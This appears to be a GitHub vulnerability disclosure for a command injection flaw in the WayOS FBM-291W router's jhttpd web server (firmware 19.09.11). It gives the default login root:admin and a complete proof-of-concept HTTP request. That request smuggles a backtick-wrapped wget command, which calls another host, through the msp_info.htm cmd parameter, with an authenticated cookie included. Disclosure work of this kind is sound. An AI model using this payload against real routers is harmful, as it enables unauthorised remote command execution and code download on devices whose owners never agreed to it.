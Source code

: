 Firmware Name: FBM_291W-19.09.11V.trx 

- Model: FBM-291W 

-  Version: 19.09.11

- Test Environment: Ubuntu 18.04 

- offical website:https://www.wayos.com/

  download link:https://www.wayos.com/product/jiatingzuwang/jiayongwuxian/jiatingwifituijian/2355.html





  FBM-291W is a multi-WAN wireless gigabit behavior management router designed for coffee shops, small to medium-sized businesses, chain organizations, and home environments. It features outstanding internet behavior management functions. It has 128M memory and 16M flash memory. The router not only supports Viman's fourth-generation smart QoS, behavior management, smart WiFi, VPN connection, and security defense functions, but also supports intelligent wireless technology, dual-band 2.4GHz and 5G wireless, and wireless transmission rates up to 1200Mbps. The application of these functions will bring great convenience to managers and is an ideal choice for smart WiFi network solutions. There is a command execution vulnerability in its jhttpd's msp_info_htm function.

affect version:

![image](https://github.com/user-attachments/assets/8cbebe2c-f3e7-4296-9a3b-0bed7653b9cc)










![image](https://github.com/user-attachments/assets/b863218f-eaba-4fe6-96b7-1cc58303b218)


![image](https://github.com/user-attachments/assets/4a3498e5-6b80-4642-b7d9-3efad7ebec33)




exploit: 

After logging in with the default password root:admin, accessing the msp_info.htm page, and crafting carefully constructed parameters, it is possible to execute commands.
poc

```
GET /msp_info.htm?flag=cmd&cmd=`wget%20http://192.168.0.2:8000/aaa` HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: userid=root; gw_userid=root,gw_passwd=94B830FE0CCD890946AE1C8318A2BE7B

Upgrade-Insecure-Requests: 1


```

![image](https://github.com/user-attachments/assets/d59ec088-a8c4-4b82-87ff-341633c8b03f)
